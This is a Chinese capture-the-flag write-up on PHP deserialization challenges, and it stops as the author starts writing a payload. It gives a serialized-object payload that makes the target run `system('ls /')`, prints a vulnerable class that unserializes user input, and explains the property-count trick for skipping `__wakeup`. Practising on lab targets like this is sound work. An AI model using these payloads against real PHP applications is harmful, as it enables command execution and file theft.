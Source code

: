 **返回一串被反序列化后的值**

![image-20231101162629877](https://rtyu-1317440738.cos.ap-guangzhou.myqcloud.com/image-20231101162629877.webp) **又题目给出 ，通过``POST``传参**

**再用`ls` 查看根目录 ，一般的flag都在根目录下。通过命令我们查到了flag**

**`nss=O:3:"lyh":3:{s:3:"url";s:10:"NSSCTF.com";s:2:"lt";s:6:"system";s:3:"lly";s:4:"ls /";}`**

![image-20231101164011093](https://rtyu-1317440738.cos.ap-guangzhou.myqcloud.com/image-20231101164011093.webp) 

**接下来我们再用 `cat` 来打开这个flag   得到我们想要的**  

![image-20231101165224169](https://rtyu-1317440738.cos.ap-guangzhou.myqcloud.com/image-20231101165224169.webp) 



#### 再来一题

**题目：**

```php
<?php
class X
{
    public $x = __FILE__;
    function __construct($x)
    {
        $this->x = $x;
    }
    function __wakeup()
    {
        if ($this->x !== __FILE__) {
            $this->x = __FILE__;
        }
    }
    function __destruct()
    {
        highlight_file($this->x);				//  这个函数就是一个高亮函数，通俗就是让这代码显示到次页面来
        //flag is in fllllllag.php				// 这里告诉我们flag在这个php文件中
    }
}
if (isset($_REQUEST['x'])) {
    @unserialize($_REQUEST['x']);
} else {
    highlight_file(__FILE__);
}
```

**题目的意思就是说我们要把`fllllllag.php` 放到  这里` ($this->x);` 也就是说让这个``X`等于它 。但是这里有个坑就是 ` __wakeup()`这个魔术方法就是当我们执行反序列化操作的时候，不管给什么值就是X 永远等于file`$this->x = __FILE__;`**

**这里解释一下` __wakeup()` 这个函数。如果对象的魔法函数中存在的``__wakeup方法``，那么之后再调用 `unserilize() 方法`进行反序列化之前则会先调用``__wakeup方法``，但是序列化字符串中表示对象属性个数的值大于真实的属性个数时会跳过``__wakeup`的执行。**

#### 以下写一个php反序列化
